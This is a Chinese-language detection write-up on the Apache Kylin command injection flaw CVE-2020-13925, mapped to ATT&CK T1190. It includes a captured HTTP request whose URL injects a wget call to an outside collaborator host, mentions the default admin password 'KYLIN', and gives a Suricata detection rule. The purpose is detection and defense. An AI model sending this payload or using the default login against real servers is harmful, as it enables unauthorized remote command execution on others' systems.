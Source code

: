 # T1190-CVE-2020-13925-Apache Kylin 远程操作系统命令注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Apache Kylin最早由eBay于2013创建并且开源，2015年成为Apache基金会的顶级项目。他是目前大数据领域应用非常广泛的开源分布式的分析型数据仓库，能够提供提供Hadoop/Spark之上的SQL查询接口及多维分析（OLAP）能力。近年来，大数据行业方兴未艾，Apache Kylin被国内外的很多大型互联网企业广泛应用，被业界称为大数据分析界的“神兽”。

Kylin 系统提供了一个前后端分离的 WEB UI，用户可以在上面管理项目、创建模型、分析数据等。系统提供了一组系统诊断接口，用于在发生故障时获取项目、任务、操作系统的诊断信息，方便调试。

漏洞在于其中两个接口没有对输入参数做安全检查，并且在后续使用过程中拼接到了一个字符串中作为系统命令执行。黑客可以通过构造恶意参数值调用该接口，实现远程执行任意系统命令，获得运行 Apache Kylin 系统的操作系统账号权限。

调用这个两个漏洞接口，需要有账号能够登陆 WEB 系统，但因为该 WEB 系统在安装完成后或部署 docker 容器后会有一个默认管理员账号 admin，并且会设置固定的默认密码 “KYLIN”，如果管理员没有特意修改，则黑客可以直接登陆并利用漏洞。也可能被通过其他方式得到账号或Session的黑客或内鬼利用获得更高权限。

## 检测日志

HTTP

## 测试复现

参考文章:<https://www.freesion.com/article/96341401547/>

## 测试留痕

```yml
GET /kylin/api/diag/project/%7c%7cwget%20qsm6epow3y6ajjhj4vi4mmkc339txi.burpcollaborator.net%7c%7c/download HTTP/1.1
Host: 10.16.45.164:7070
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.107.19:7070/kylin/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: project=%22learn_kylin%22; JSESSIONID=9AC41F447D7504D31753F5D099A4157D; a=1; PHPSESSID=lodt0vr5t8b8rknhihm5ih04s0; zbx_sessionid=f959c1b9463c060987da90c5f916633f; tab=0
Connection: close
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CVE-2020-13925-Apache Kylin 远程操作系统命令注入漏洞";flow:established,to_server;content:"GET";http_method;content:"/kylin/api/diag/project";pcre:"/download/";http_uri;reference:url,www.suphp.cn/anquanke/67/210867.html;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

流量研判，请结合状态码及返回内容进行研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Apache Kylin 远程命令执行漏洞（CVE-2020-13925）

<http://www.suphp.cn/anquanke/67/210867.html>

CVE-2020-13925漏洞复现

<https://www.cnblogs.com/mY-bL0g/p/13895639.html>
